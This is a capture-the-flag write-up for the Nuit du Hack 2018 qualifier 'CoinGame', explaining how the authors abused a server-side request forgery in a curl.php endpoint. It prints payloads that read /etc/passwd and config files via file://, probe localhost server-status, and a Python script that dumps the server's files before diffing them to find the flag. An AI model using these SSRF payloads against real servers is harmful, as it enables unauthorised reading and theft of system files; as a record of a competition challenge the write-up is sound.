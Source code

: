 ```yaml
---
layout: post
title:  Nuit du Hack CTF Quals 2018 - CoinGame
author:
  name: onionpsy & Crisis
---
```

This was the challenge's description :  
```
Hi guy !
Hi !
Are you still working on your famous game?
Yes of course, I made some modifications to make it more fun.
Can I take a look at it?
No, I prefer to keep it on my file server. Sorry ;)
```

![website](/medias/ndhqual18/site.png)  
And this was the website, which as you can see is rather basic : there's just one input, waiting for an url, and the post button. The post is actually doing a curl with the value passed in the `way` param: `/curl.php?way=<url>`

After some tests, we noticed that we could read server files with the `ftp://` or `file://` commands. Like that: `curl.php?way=file:///etc/passwd`.  
![SSRF](/medias/ndhqual18/etcpasswd.png)  
Great, looks like a [SSRF](https://www.owasp.org/index.php/Server_Side_Request_Forgery).

We kept looking and found one interesting file `curl.php?way=file:///etc/default/tftpd-hpa`:
```
# /etc/default/tftpd-hpa TFTP_USERNAME="tftp" TFTP_DIRECTORY="/home/CoinGame" TFTP_ADDRESS="0.0.0.0:69" TFTP_OPTIONS="--secure —create" 
```
It seems like the "game" was transfered on the server through FTP, in the "/home/CoinGame" directory.
We tried to find some logfiles that might have helped us find files but we unfortunately found nothing. After a while, We found that a [server-status](https://httpd.apache.org/docs/2.4/mod/mod_status.html) was actually installed on `curl.php?way=http://localhost/server-status`

Between the spam of requests, we found some weird queries like: `curl.php?way=file:///home/CoinGame/TouchMonsterFiles.py`. We tried and boom, it worked. It looks like it was the game from the description. We searched for the code on the internet, and we quickly found the repo on [Github](https://github.com/totheyellowmoon/CoinGame).

After digging the server for a while, we didn't find anything interesting. So we decided to dump the project locally and make a `diff` between the 2 games through a script (don't mind the code pls). `list` was a file containing the list of all the files of the project:

```python
import os
import wget

url = 'http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/'
out = '/tmp/out/'

with open('list') as f: # create the directories
	for line in f:
		dirname = os.path.dirname(out + line)
		if not os.path.exists(dirname):
			try:
				os.makedirs(dirname)
			except Exception as e:
				pass
				
with open('list') as f: # download the files
	for line in f:
		line = line.rstrip()
		try:
			wget.download(url + line, out=out + line)
		except Exception as e:
			print(e)
			pass
```

Once it was downloaded, we just had to make a diff between the 2 folders: 
```bash
diff --brief -r CoinGame/ /tmp/out/
```  

```
Files CoinGame/Avatars/ArchmageAntonidusHearthstone#.png and /tmp/out/Avatars/ArchmageAntonidusHearthstone#.png differ
Files CoinGame/Avatars/ChefOgre#.png and /tmp/out/Avatars/ChefOgre#.png differ
Files CoinGame/Avatars/Chevalier_noir#.png and /tmp/out/Avatars/Chevalier_noir#.png differ
Only in /tmp/out/Avatars: curl.php
Files CoinGame/Avatars/Demon#.png and /tmp/out/Avatars/Demon#.png differ
Files CoinGame/Avatars/ForetSauvage#.png and /tmp/out/Avatars/ForetSauvage#.png differ
Files CoinGame/Avatars/Gobelin#.png and /tmp/out/Avatars/Gobelin#.png differ
Files CoinGame/Avatars/Legion#.png and /tmp/out/Avatars/Legion#.png differ
Files CoinGame/Avatars/LeRoi#.png and /tmp/out/Avatars/LeRoi#.png differ
Files CoinGame/Avatars/MaitreOmbre#.png and /tmp/out/Avatars/MaitreOmbre#.png differ
Files CoinGame/Avatars/poseidon#.png and /tmp/out/Avatars/poseidon#.png differ
Files CoinGame/Avatars/RobotAlpha#.png and /tmp/out/Avatars/RobotAlpha#.png differ
Files CoinGame/Avatars/Roi_des_Nains#.png and /tmp/out/Avatars/Roi_des_Nains#.png differ
Files CoinGame/Avatars/SeigneurDragon#.png and /tmp/out/Avatars/SeigneurDragon#.png differ
Files CoinGame/Avatars/SeigneurNoir#.png and /tmp/out/Avatars/SeigneurNoir#.png differ
Files CoinGame/Avatars/Vikings#.png and /tmp/out/Avatars/Vikings#.png differ
Only in /tmp/out/CardFiles: curl.php
Only in /tmp/out/Cards: curl.php
Only in /tmp/out/Decks: curl.php
Only in /tmp/out: dump.txt
Files CoinGame/gameAnimationImages/background1.png and /tmp/out/gameAnimationImages/background1.png differ
Files CoinGame/gameAnimationImages/background2.png and /tmp/out/gameAnimationImages/background2.png differ
Files CoinGame/gameAnimationImages/background3.png and /tmp/out/gameAnimationImages/background3.png differ
Files CoinGame/gameAnimationImages/background.png and /tmp/out/gameAnimationImages/background.png differ
Files CoinGame/gameAnimationImages/Card_face_avant_black.gif and /tmp/out/gameAnimationImages/Card_face_avant_black.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_blue.gif and /tmp/out/gameAnimationImages/Card_face_avant_blue.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant.gif and /tmp/out/gameAnimationImages/Card_face_avant.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant.jpg and /tmp/out/gameAnimationImages/Card_face_avant.jpg differ
Files CoinGame/gameAnimationImages/Card_face_avant_v3.gif and /tmp/out/gameAnimationImages/Card_face_avant_v3.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_v3.jpg and /tmp/out/gameAnimationImages/Card_face_avant_v3.jpg differ
Files CoinGame/gameAnimationImages/Card_face_avant_v4.gif and /tmp/out/gameAnimationImages/Card_face_avant_v4.gif differ
Files CoinGame/gameAnimationImages/Card_face_avant_v4.jpg and /tmp/out/gameAnimationImages/Card_face_avant_v4.jpg differ
Only in /tmp/out/gameAnimationImages: curl.php
Only in CoinGame/: .git
Only in CoinGame/photo: bebe-dragon (1).jpg
Only in /tmp/out/photo: curl.php
Only in CoinGame/photo: Demon cornu.jpg
Only in CoinGame/photo: Drag
Only in CoinGame/photo: mangeur de crapau.jpg
Only in CoinGame/photo: Moderne
Only in CoinGame/photo: New
Only in CoinGame/photo: Ogres
Only in CoinGame/photo: petit etre_7247.jpg
Only in CoinGame/photo: portail demoniaque.jpg
Only in CoinGame/photo: portail oblivion.jpg
Only in CoinGame/photo: reve
Only in CoinGame/photo: serpents tournants.jpg
Only in CoinGame/photo: Source de vie.jpg
```
We quickly checked every image and we saw the actual flag on all `backgroundX.png` :  
![flag](/medias/ndhqual18/flag.png)  

Done :)
